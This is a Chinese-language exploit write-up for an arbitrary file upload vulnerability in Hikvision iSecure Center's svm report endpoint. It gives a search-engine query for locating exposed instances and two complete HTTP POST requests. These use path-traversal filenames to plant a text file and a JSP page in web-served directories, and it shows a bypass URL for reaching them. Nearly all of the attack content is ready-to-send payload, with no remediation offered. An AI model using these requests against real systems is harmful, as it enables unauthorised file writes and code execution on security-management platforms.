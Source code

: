 # 海康威视iSecureCenter综合安防管理平台 svm文件上传漏洞

# 1、漏洞描述
<font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，获取边缘节点数据，实现安防信息化集成与联动，以电子地图为载体，融合各系统能力实现丰富的智能应用。HIKVISION iSecure Center平台基于“统一软件技术架构”先进理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、统一配置、统一管理和统一调度。海康威视isecure center 综合安防管理平台svm存在任意文件上传漏洞</font>

# <font style="color:rgb(0, 0, 0);">2、影响版本</font>
<font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台 </font>

![1691858068026-c05d2dfd-ab38-44cf-a7d4-f5cf0f1be4a1.png](./img/icW1dT4mb2htBLN1/1691858068026-c05d2dfd-ab38-44cf-a7d4-f5cf0f1be4a1-550556.png)

# <font style="color:rgb(0, 0, 0);">3、资产测绘</font>
**hunter查询语法：**

`app.name=="Hikvision 海康威视 iSecure Center"`

# 4、漏洞复现
POC：

`https://ip/svm/api/external/report`

判断是否存在该漏洞

![1690550618393-97f7ecb5-730d-446d-9075-803c2d6de1a7.png](./img/icW1dT4mb2htBLN1/1690550618393-97f7ecb5-730d-446d-9075-803c2d6de1a7-438028.png)

## POC1
```plain
POST /svm/api/external/report HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_371
Host: ip
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 172

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="../../../tomcat85linux64.1/webapps/els/static/1ndex.txt"

index
--00content0boundary00--

```

![1690550672329-2a799722-e942-4433-9a33-a8dd8aa6716a.png](./img/icW1dT4mb2htBLN1/1690550672329-2a799722-e942-4433-9a33-a8dd8aa6716a-742082.png)

上传文件位置

`https://ip/els/static/1ndex.txt`

![1690550733156-055c521c-de3b-4579-a285-4fcc157d9278.png](./img/icW1dT4mb2htBLN1/1690550733156-055c521c-de3b-4579-a285-4fcc157d9278-494680.png)

## POC2
```plain
POST /svm/api/external/report HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a
Content-Length: 308

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--


```

![1691860141018-b168e417-ef6c-4350-b31a-145140159598.png](./img/icW1dT4mb2htBLN1/1691860141018-b168e417-ef6c-4350-b31a-145140159598-991196.png)

上传文件位置

```plain
https://xx.xx.xx.xx/portal/ui/login/..;/..;/new.jsp
```

![1691860183109-9d6a9f3a-f571-4827-8b63-98f1240bdaa5.png](./img/icW1dT4mb2htBLN1/1691860183109-9d6a9f3a-f571-4827-8b63-98f1240bdaa5-122313.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xogv2fbt69o0h9gq>
